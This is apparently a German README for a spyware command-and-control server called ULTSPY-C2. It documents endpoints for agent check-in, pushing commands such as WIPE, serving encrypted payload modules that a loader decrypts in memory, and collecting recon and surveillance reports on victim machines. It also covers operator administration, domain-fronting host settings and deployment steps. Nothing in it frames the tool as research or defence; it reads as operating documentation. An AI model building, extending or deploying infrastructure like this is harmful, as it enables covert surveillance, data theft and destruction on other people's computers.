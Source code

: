 # Server Component

Eine minimale Flask-Anwendung, die REST-Endpunkte für Registrierung, Kommandos und Updates bereitstellt. Neu sind Endpunkte zur Heartbeat-Verarbeitung und Kommandoverteilung.

## Key Exchange
```
POST /key_exchange
{ "uuid": "<client uuid>", "public_key": "-----BEGIN RSA PUBLIC KEY-----..." }
```
Antwort:
```
{ "aes_key": "<base64 encrypted key>" }
```

## Heartbeat
```
POST /heartbeat
{ "uuid": "<client uuid>" }
```

Der Server speichert den Zeitpunkt des letzten Heartbeats pro Client. Ist kein neuer Heartbeat innerhalb von 180 Sekunden eingegangen, wechselt der Client-Status auf **offline**.

### Client-Status
Der aktuelle Zustand kann über folgenden Endpunkt abgefragt werden:

```
GET /status/<uuid>
-> { "uuid": "<uuid>", "status": "online", "last_seen": "2025-06-04T10:00:00" }
```

## Kommandos
```
POST /command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Unterstützte Befehle sind `SAFE_MODE`, `WIPE` und `DEEP_SLEEP`. Das alte Feld `cmd` wird weiterhin akzeptiert, bevorzugt wird jedoch das JSON-Format oben. Befehle werden serverseitig geloggt und beim nächsten Abruf ausgeliefert.

```
GET /commands/<uuid>
-> { "commands": [{"command":"SAFE_MODE","parameters":{}}] }
```
Jeder Eintrag enthält das Kommando und optionale Parameter.

## Payload Delivery
```
GET /payload/<uuid>/<module>
-> { "payload": "<base64 encrypted module>" }
```
Der Server liefert verschlüsselte Module, welche der gehärtete Loader im Arbeitsspeicher entschlüsselt und lädt.

## Recon Daten
``` 
POST /recon/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Recon-Bericht wird gespeichert und kann zu Debug-Zwecken entschlüsselt ausgegeben werden.

## Active Surveillance Report
```
POST /surveillance_report/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Überwachungsbericht enthält laufende Prozesse, Autoruns und Sicherheitsinformationen.

## Admin Endpoints

### Login
```
POST /login
{ "api_key": "changemeadmin" }
-> { "token": "<jwt>" }
```

Das erhaltene JWT muss innerhalb einer Stunde verwendet werden.

Administratoren melden sich über `/login` mit einem API-Key an und erhalten ein JWT. Die Schlüssel werden seit Version 5 in einer Datenbank gespeichert und können per API verwaltet werden. Das JWT wird im Header `Authorization: Bearer <token>` an alle `/admin/*` Endpoints angehängt. Abgelaufene oder ungültige Tokens führen zu `401 Unauthorized` und erfordern einen erneuten Login.

### Agents auflisten
```
GET /admin/agents
-> { "agents": [{"uuid": "<id>", "online": true, "last_seen": "..."}] }
```

### Logs eines Agents
```
GET /admin/logs/<uuid>
-> { "logs": [
     {"timestamp":"2025-06-05T20:00:00Z","type":"Recon","description":"Recon data","data":"{...}"},
     {"timestamp":"2025-06-05T20:01:00Z","type":"Info","description":"heartbeat"}
   ] }
```
Ein Eintrag enthält Zeitstempel (UTC), Typ des Eintrags (Recon, Surveillance, Info, Fehler usw.), eine Kurzbeschreibung und optional Rohdaten.

### Kommando pushen
```
POST /admin/command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Identisch zu `/command/<uuid>`, aber nur mit gültigem API-Key erreichbar.

### Aktuelle Server-Konfiguration
```
GET /admin/config
-> {
     "api_keys": ["default"],
     "heartbeat_timeout": 180,
     "versions": {"backend": "dev", "frontend": "0.0.0"},
     "targets": ["localhost"],
     "allowed_hosts": ["localhost"]
   }
```
Listet die wichtigsten Einstellungen des Backends wie Heartbeat-Timeout und konfigurierte Zielhosts auf. Die API-Keys werden nur maskiert ausgegeben.

### Kommando-Templates

Wiederkehrende Befehle lassen sich als Vorlage speichern und später schnell abrufen:

```
GET /admin/templates
-> { "templates": [{"template_id":"...","name":"Daily Recon","command":"RECON","parameters":{}}] }

POST /admin/templates
{ "name": "Daily Recon", "command": "RECON", "parameters": {} }
-> { "template_id": "<id>" }

DELETE /admin/templates/<template_id>
-> { "status": "deleted" }
```

Der Name eines Templates muss eindeutig sein. Bei Dopplern liefert der Server `409 Conflict`.

### API Keys verwalten

API-Schlüssel können über folgende Endpunkte administriert werden:

```bash
GET /admin/apikeys
-> { "keys": [{"id":"...","name":"Admin","created_at":"...","last_used_at":"..."}] }

POST /admin/apikeys
{ "name": "Operator" }
-> { "id": "...", "secret": "<only shown once>" }

DELETE /admin/apikeys/<id>
-> { "status": "revoked" }
```

Das ausgegebene Geheimnis bei der Erstellung wird nur ein einziges Mal angezeigt und muss sicher abgelegt werden.

## API Hardening
Alle Agent-Requests tragen ab Version 4 eine HMAC-SHA256-Signatur. Zusätzlich wird pro Aufruf ein einmaliger Nonce sowie ein Zeitstempel übertragen:

- `X-ULTSPY-Signature`
- `X-ULTSPY-Nonce`
- `X-ULTSPY-Timestamp`

Der Server verifiziert die Signatur anhand des pro Client hinterlegten AES-Schlüssels, prüft die Zeitabweichung (±60s) und lehnt doppelte Nonces ab.

```
pip install -r requirements.txt
python app.py
```

Bei früheren Versionen wurden die API-Schlüssel in `config.json` gespeichert. Ab Version 5 müssen diese einmalig in die Datenbank überführt werden:
```bash
python migrate_keys.py
```
Danach können neue Schlüssel über die `/admin/apikeys`-Schnittstelle erzeugt werden. Beim Login muss ein gültiger Schlüssel angegeben werden. Anschließend werden alle Admin-Aufrufe mit `Authorization: Bearer <token>` durchgeführt.

## Domain Fronting Vorbereitung

In `config.json` lässt sich eine Liste erlaubter Hostnamen konfigurieren. Bei eingehenden Anfragen prüft der Server den `Host`-Header und lehnt unbekannte Hosts ab. Über `/config/targets` kann die aktuelle Routing-Tabelle abgefragt werden.
Beispiel `config.json`:
```json
{
  "allowed_hosts": ["localhost", "example.cloudfront.net"]
}
```

## Deployment

1. Create a virtual environment and install dependencies:
```bash
python -m venv /srv/ultspy-c2/venv
source /srv/ultspy-c2/venv/bin/activate
pip install -r requirements.txt
```
2. Start the API using Gunicorn:
```bash
gunicorn -w 4 -b 0.0.0.0:5000 wsgi:app
```
This will expose the Flask app via WSGI. The server logs to STDOUT and can be combined with a process manager and proxy such as Nginx.
